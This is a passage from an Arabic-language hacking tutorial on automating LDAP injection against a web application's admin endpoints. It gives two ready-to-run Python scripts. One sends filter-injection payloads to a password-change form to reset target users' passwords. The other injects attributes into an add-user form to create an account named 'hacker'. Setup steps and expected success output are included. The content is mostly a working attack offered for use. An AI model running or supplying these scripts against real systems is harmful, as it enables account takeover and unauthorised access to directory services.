 
## أتمتة تعديل بيانات الديركتوري
تعديل البيانات يدويًا قد يكون بطيئًا، خاصة إذا كنت تستهدف عدة مستخدمين أو كائنات. يمكنك أتمتة العملية باستخدام سكربت Python.

#### سكربت Python لتعديل كلمة المرور عبر واجهة التطبيق
```python
#!/usr/bin/python3
import requests

url = "http://example.com/admin/change_password"  # استبدل بـ URL الواجهة
users = ["user1", "user2"]  # قائمة المستخدمين المستهدفين
new_password = "newpass123"

for user in users:
    payload = f"{user}*)(uid={user})(userPassword={new_password})"
    data = {"username": payload, "new_password": "anything"}
    r = requests.post(url, data=data)
    if "Password changed" in r.text or r.status_code == 200:  # شرط النجاح
        print(f"[+] Password changed for {user} to {new_password}")
    else:
        print(f"[-] Failed to change password for {user}")
```

- **الإعداد**:
  - استبدل `http://example.com/admin/change_password` بعنوان URL الواجهة.
  - استبدل `"Password changed"` بشرط النجاح (مثل نص أو رمز حالة).
  - عدّل `users` و`new_password` حسب الحاجة.
- **التشغيل**:
  - `python3 modify_password.py`
- **المخرجات**:
  - `[+] Password changed for user1 to newpass123`
  - `[+] Password changed for user2 to newpass123`
- **الأوامر/الإجراءات**:
  - احفظ السكربت كـ `modify_password.py` وشغّله.
  - راقب الطلبات في Burp Suite.

#### سكربت Python لإضافة مستخدم جديد
```python
#!/usr/bin/python3
import requests

url = "http://example.com/admin/add_user"  # استبدل بـ URL الواجهة
new_user = "hacker"
new_password = "hacker123"

payload = f"{new_user})(uid={new_user})(objectClass=inetOrgPerson)(userPassword={new_password})(cn={new_user})"
data = {"username": payload, "password": "anything"}
r = requests.post(url, data=data)
if "User added" in r.text or r.status_code == 200:  # شرط النجاح
    print(f"[+] User {new_user} added with password {new_password}")
else:
    print(f"[-] Failed to add user {new_user}")
```
